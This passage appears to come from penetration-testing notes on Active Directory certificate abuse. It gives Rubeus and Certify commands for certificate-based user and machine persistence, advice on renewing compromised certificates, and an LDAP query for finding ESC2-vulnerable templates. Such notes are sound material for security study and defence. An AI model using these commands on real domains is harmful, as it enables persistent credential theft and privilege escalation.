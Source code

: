 ```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

After that an adversary can upload it to target and use Rubeus to request a valid TGT, for as long as the certificate is valid (default certificate lifetime is one year):

```
Cmd > .\Rubeus.exe asktgt /user:snovvcrash /certificate:C:\Temp\cert.pfx /password:Passw0rd!
```

This approach will work *even if the user changes their password*. Combined with the **THEFT5** technique, an adversary can also persistently obtain the account's NTLM hash.



### Machine Persistence (PERSIST2)

Same as for **PERSIST1** but requesting a certificate for enrolling current machine context:

```
# While elevated
Cmd > .\Certify.exe request /ca:CA01.megacorp.local\CorpCA /template:Machine /machine
```

With access to a machine account certificate an adversary can use S4U2Self to obtain a Kerberos ticket to any service on the host (see [RBCD Abuse](/pentest/infrastructure/ad/delegation-abuse#resource-based-constrained-delegation-rbcd)) or generate a silver ticket.



### Certificate Renewal

* Certificate template **validity period** - determines how long an issued certificate can be used.
* Certificate template **renewal period** - determines a window of time *before the certificate expires* where an account can renew it from the issuing certificate authority.

An adversary can renew the compromised certificate before the validity period expires, and so that extend their access to AD without requesting additional ticket enrollments.




## Domain Escalation via Certificates



### Modifiable SAN + Any Purpose EKU (ESC2)

Condition: the vulnerable certificate template allows requesters to specify a SAN in the CSR as well as allows Any Purpose EKU (`2.5.29.37.0`).

Find template with this misconfiguration:

```
PS > Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=2.5.29.37.0)(!(pkiextendedkeyusage=*))))' -SearchBase 'CN=Configuration,DC=megacorp,DC=local'
```
